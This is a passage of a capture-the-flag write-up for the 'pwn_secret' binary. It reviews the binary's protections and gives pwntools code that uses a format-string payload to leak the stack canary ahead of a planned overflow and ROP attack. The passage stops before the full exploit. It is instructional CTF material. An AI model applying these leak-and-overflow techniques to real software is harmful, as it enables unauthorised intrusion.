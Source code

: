 ```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Tricky. We've got stack protection on all our user-defined functions as well
as the NX-bit and PIE enabled, which means we need to expect ASLR as well.

This is going to influence our exploit a lot - the canary is going to stop us
from performing a useful overflow unless we can leak it, the NX bit means
we're going to need to go for a ROP attack and the PIE means we're going to
need to leak a few addresses before we can jump anywhere useful.

## Exploitation

Let's load up our tools with a base skeleton. I'm using pwntools and gdb
peda.

```python
#!/usr/bin/env python2

from pwn import *
context(arch='amd64')

# p = remote('206.81.24.129', 1339)
p = process('./pwn_secret')
gdb.attach(p, "source /usr/share/peda/peda.py")

p.interactive()
```

Looking at our binary, we're going to want to try and leak our canary as soon
as possible so that we can overflow the saved instruction pointer properly.

We can see from the disassembly that both `main` and `secret` use the same
canary, i.e., `fs[0x28]`. So if we can leak the canary for one, we can get
the other.

With a bit of playing around in gdb, dumping the stack using `printf` and
inspecting the canary value, we can find the exact location of the canary on
the stack.

```python
p.recvline_contains('name?')
p.sendline('%15$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
```

This is the canary for `main`, which will be the same value as the one for
`secret`. We can now use this to properly overflow the stack and avoid the
`__stack_chk_fail`.
